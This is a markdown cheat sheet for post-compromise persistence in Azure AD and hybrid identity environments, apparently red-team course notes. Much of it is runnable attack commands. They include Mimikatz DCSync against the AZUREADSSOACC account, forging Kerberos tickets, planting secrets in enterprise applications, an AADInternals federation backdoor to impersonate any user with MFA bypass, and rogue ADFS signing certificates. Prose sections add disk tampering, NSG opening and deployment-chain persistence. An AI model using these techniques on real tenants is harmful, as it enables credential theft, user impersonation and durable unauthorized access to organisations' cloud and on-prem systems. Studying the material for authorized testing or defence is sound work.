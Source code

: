# Persistence
- It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD. 
- This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on-prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand!
  - For PHS, we can extract the credentials
  - For PTA, we can install the agent
  - For Federation, we can extract the certificate from ADFS server using DA

## Hybrid identity - Seamless SSO
- Seamless SSO is supported by both PHS and PTA.
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

#### Get NTLM hash of AZUREADSSOC account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\azureadssoacc$ /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

#### Create a silver ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:defeng.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access
```
Get-AzResource
```

## Federation
### Creating a trusted domain
If we have GA privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated and configure the domain to trust a specific certificate (any.sts in the below command) and issuer.

#### Add a domain with AADInternal
```
Import-Module .\AADInternals.psd1
ConvertTo-AADIntBackdoor -DomainName cyberranges.io 
```

#### Get immutableID of the user that we want to impersonate. Using Msol module
```
Get-MsolUser | select userPrincipalName,ImmutableID
```

#### Access any cloud app as the user
```
Open-AADIntOffice365Portal -ImmutableID <ID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

### Token Signing Certificate
- With DA privileges on on-prem AD, it is possible to create and import new Token signing and Token Decrypt certificates that have a very long validity. 

#### Create new certs, add them to ADFS, Disable auto reollver and restart the service
```
Import-Module .\AADInternals.psd1
New-AADIntADFSSelfSignedCertificates
```

#### Update the certificate information with AzureAD
```
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```

## Storage account access keys
- We already know that keys provide root equivalent privileges on an storage account. 
- There are two access keys and they are NOT rotated automatically (unless a key vault is managing the keys). 
- This, of course, provides neat persistent access to the storage account.
- We can also generate SAS URL (including offline minting) using the access keys. 


## Application and service principals
- With privileges of Application Administrator, GA or a custom role with microsoft.directory/applications/credentials/update permissions, we can add credentials (secret or certificate) to an existing application.
- We can also add a new application that has high permissions and then use that for persistence.
- If we have GA privileges, we can create an application with the Privileged authentication administrator role - that allows to reset password of Global Administrators.

#### Sign in as a service principal account
```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<ACCOUNT ID>", $passwd) 
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant <TENAND ID>
```

#### For certificate based authentication
```
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -
CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```

## Illicit Consent Grant
- We can register an application (only for the target tenant) that needs high impact permissions with admin consent - like sending mail on a user's behalf, role management etc.

## Azure VMs and NSGs
- OS level persistence on an Azure VM where we have remote access is very useful. 
- Azure VMs also support managed identity so persistence on any such VM will allow us access to additional Azure resources. 
- We can also create snapshot of disk attached to a running VM. This can be used to extract secrets stored on disk (like SAM hive for Windows). 
- It is also possible to attach a modified/tampered disk to a turned-off VM. For example, add a local administrator!
- Couple this with modification of NSGs to allow access from IPs that we control!

## Custom Azure AD roles
- If we have GA in a tenant, we can modify a custom role and assign that to a user that we control. 
- Take a look at the permissions of the built-in administrative roles, we can pick individual actions. It is always helpful to go for minimal privileges.

## Deployment Modification
-  If we have persistent access to external resources like GitHub repos that are a part of deployment chain, it will be possible to persist in the target tenant. 
